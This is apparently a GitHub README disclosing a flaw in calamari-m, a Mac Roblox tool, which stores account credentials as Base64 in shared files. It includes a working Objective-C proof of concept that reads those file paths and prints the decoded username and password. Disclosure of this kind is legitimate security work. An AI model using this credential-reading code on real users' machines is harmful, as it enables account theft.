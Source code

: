 # CASteal A.K.A. Pulling a fast one on calamari-m
## CASteal is a proof of concept for a security vulnerability in all versions of calamari-m for roblox
```mm
#import <Foundation/Foundation.h>
int main() {
    printf("Heres ur calamari account\nUsername: %s\nPassword: %s\n",[[[NSString alloc] initWithData:[[NSData alloc] initWithBase64EncodedString:[NSString stringWithContentsOfFile:@"/Users/Shared/Calamari/GY" encoding:NSUTF8StringEncoding error:nil] options:0] encoding:NSUTF8StringEncoding] UTF8String],[[[NSString alloc] initWithData:[[NSData alloc] initWithBase64EncodedString:[NSString stringWithContentsOfFile:@"/Users/Shared/Calamari/NGV" encoding:NSUTF8StringEncoding error:nil] options:0] encoding:NSUTF8StringEncoding] UTF8String]);
}
```
a minified version of the proof of concept is shown above.
how this works:
Calamari (for mac) account cridentials are stored for reuse by the ui and dylib to autheticate your user.
their paths are /Users/Shared/Calamari/GY for username and /Users/Shared/Calamari/NGV for password.
however they are only stored in Base64 encoding meaning they can be easily decoded and sent anywhere by a proccess.
